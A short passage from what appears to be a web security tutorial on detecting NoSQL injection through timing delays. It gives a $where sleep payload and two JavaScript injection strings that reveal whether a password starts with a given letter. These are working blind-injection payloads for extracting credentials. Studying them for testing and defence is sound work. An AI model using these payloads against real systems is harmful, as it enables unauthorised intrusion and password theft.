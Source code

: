     * Load the page several times to determine a baseline loading time.
    
    * Insert a timing based payload into the input. A timing based payload causes an intentional delay in the response when executed. For example, the below payload causes an intentional delay of 5000 ms on successful injection.


```json
{"$where": "sleep(5000)"}
```

* Identify whether the response loads more slowly. This indicates a successful injection.


<br>


*  The following timing based payloads will trigger a time delay if the password beings with the letter a:

```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```


```
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

